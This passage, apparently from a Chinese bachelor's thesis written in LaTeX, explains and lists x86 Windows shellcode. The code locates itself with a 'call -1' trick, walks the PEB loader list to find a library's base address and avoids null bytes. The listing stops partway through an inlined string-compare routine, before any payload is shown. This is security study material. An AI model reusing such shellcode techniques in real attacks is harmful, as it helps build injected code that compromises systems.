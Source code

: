 \documentclass[bachelor]{thesis-uestc}
\begin{document}
``call -1''后LABEL\_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的``FFC2''译码成``inc edx''; 然后执行标号6的``pop ecx''(0x59), 将保存在栈顶的LABEL\_BASE的地址pop进ecx; 之后执行标号7的``nop''(0x90). 至此实现了自定位——LABEL\_BASE的地址被保存在ecx。

\subsection{最终的shellcode}
\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
__asm
{
/*********************************************************/
/*                    CODE_ENTRY                         */
/*********************************************************/
CODE_ENTRY:
/* 0 */	_EMIT 0xE8;
/* 1 */	_EMIT 0xFF;
/* 2 */	_EMIT 0xFF;
/* 3 */	_EMIT 0xFF;
/* 4 */	_EMIT 0xFF; // call 0xFFFFFFFF
LABEL_BASE:
/* 5 */	_EMIT 0xC2;
/* 6 */	_EMIT 0x59;
/* 7 */	_EMIT 0x90;
// "call -1"后LABEL_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的"FFC2"译码成"inc edx";
// 然后执行标号6的"pop ecx"(59), 将保存在栈顶的LABEL_BASE的地址pop进ecx; 之后执行标号7的"nop"(90).
// 至此实现了自定位——LABEL_BASE的地址被保存在ecx
_GetLibcBaseAddress:
	xor ebx, ebx;
	mov eax, fs:[ebx + 0x30]; // linear address of PEB (直接"mov eax,fs:[0x30]"会使代码中出现0x00)
	mov eax, [eax + 0xc]; // 从PEB结构体偏移0xc处取得PEB_LDR_DATA结构体的地址
	mov ebx, [eax + 0xc]; // ebx <- 第一个LDR_MODULE的地址
	mov edx, ebx; // edx保存循环链表的头地址
SEARCH_MODULE_LOOP:
	mov eax, ebx;
	add eax, 0x2C + 0x4; // LDR_MODULE偏移0x2C处是BaseDllName, 一个UNICODE_STRING, 其中偏移0x4处是一个指向UNICODE字符串的指针
	mov esi, [eax];
	mov edi, LIBC_NAME;
	sub edi, LABEL_BASE; // 这两个label的地址中不能出现0x00, 如果有就重新编译知道满足要求
	add edi, ecx;
/*********************************************************/
/*        bool _strcmp(wchar *s1, char *s2)              */
/*        - args: esi = s1, edi = s2(end with '$')       */
/*        - ret: al=1 if equal, al=0 if NOT equal        */
/*********************************************************/
// 这里本可以写成"call _strcmp", 但是这样会在代码中出现0x00, 所以直接将函数嵌入进来
_strcmp:
	push ebx;
LOOP_CMP_STRCMP:
	mov al, [esi];
	mov bl, [edi];
	cmp al, bl;
	je CONTINUE_STRCMP;
	test al, al;
	jnz NOT_EQUAL_STRCMP;
	cmp bl, '$'; // 两个字符串同时结束时al=0,bl='$'
	jne NOT_EQUAL_STRCMP;
	xor al, al;
	inc al; // equal (这两条指令用于替代"mov al,1")

\end{lstlisting}
\end{document}
